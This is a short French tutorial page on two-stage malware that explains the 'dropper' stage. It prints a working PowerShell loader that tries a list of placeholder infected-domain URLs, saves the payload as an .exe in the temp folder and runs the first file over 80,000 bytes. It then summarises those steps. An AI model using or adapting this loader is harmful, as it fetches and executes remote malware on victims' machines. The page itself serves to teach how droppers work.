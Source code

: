 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

## __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000


## 